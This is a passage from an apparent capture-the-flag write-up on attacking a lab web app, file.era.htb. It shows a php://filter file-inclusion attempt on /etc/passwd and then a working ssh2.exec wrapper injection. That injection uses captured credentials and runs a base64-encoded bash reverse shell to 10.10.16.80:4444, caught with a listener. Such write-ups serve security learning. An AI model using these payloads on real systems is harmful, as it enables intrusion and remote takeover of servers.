 then we could to take admin privilege on this web app so let’s try to execute LFI

```php
http://file.era.htb/?id=1&show=true&format=php://filter/read=convert.base64-encode/resource=/etc/passwd 
```

but nothing it occur

<figure><img src="../.gitbook/assets/image 4.png" alt=""><figcaption></figcaption></figure>

after return to our mind map we found we can replace php with ssh2

{% hint style="warning" %}
ssh2 function

* ssh2.shell://user:pass@example.com:22/xterm
* ssh2.exec://user:pass@example.com:22/usr/local/bin/somecmd
* ssh2.tunnel://user:pass@example.com:22/192.168.0.1:14
* ssh2.sftp://user:pass@example.com:22/path/to/filename
{% endhint %}

```php
http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://eric:america@127.0.0.1/bash%20-c%20%27printf%20KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTYuODAvNDQ0NCAwPiYxKQ==|base64%20-d|bash%27;
```

we will use penelope framework to listening

> you can use netcat but this framework have more features like you can use automated privilege escalation tools if you can download it in pwn machine

